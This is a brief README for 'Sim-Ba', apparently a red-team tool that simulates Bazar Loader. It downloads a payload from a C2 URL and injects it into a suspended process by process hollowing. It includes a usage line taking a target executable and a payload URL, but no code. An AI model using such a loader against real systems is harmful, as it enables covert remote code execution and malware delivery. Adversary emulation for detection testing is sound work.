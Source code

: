 # sim-ba
(Sim)ulate (Ba)zar Loader

## Introduction
Sim-Ba is an in-memory PE Loader designed to simulate the behaviour of Bazar Loader. It downloads the payload from C2 URL and uses Process Hollowing method to inject downloaded PE into the new process created in suspended state. Process Hollowing is already a well-known, commonly used injection [technique](https://attack.mitre.org/techniques/T1055/012/). Sim-Ba is a modified version of another Process Hollowing repository: [idan1288/ProcessHollowing32-64](https://github.com/idan1288/ProcessHollowing32-64) 

## Usage
```shell
.\sim-ba.exe [Target executable] [Payload URL] 
```
